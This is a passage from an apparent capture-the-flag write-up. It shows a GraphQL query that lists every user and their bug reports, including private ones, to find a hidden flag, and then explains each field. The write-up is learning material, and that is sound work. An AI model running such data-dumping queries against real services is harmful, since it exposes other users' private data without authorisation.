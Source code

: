 
## 🔍 Step 4: Complete Data Extraction

Finally, we crafted a comprehensive query to extract all user data including their associated bugs:

```graphql
query {
  user {
    edges {
      node {
        id
        username
        bugs {
          pageInfo {
            startCursor
            endCursor
          }
          edges {
            cursor
            node {
              id
              reporterId
              text
              private
              reporter {
                id
              }
            }
          }
        }
      }
    }
  }
}
```

**What this does:**
- `user` - Gets all users (different from allUsers)
- `bugs` - For each user, gets their associated bugs
- `pageInfo` - Pagination information
- `text` - The actual bug report content (likely contains the flag)
- `private` - Boolean indicating if the bug is private
- `reporter` - Additional reporter information

This comprehensive query revealed all the sensitive information, including the flag hidden in the bug reports.
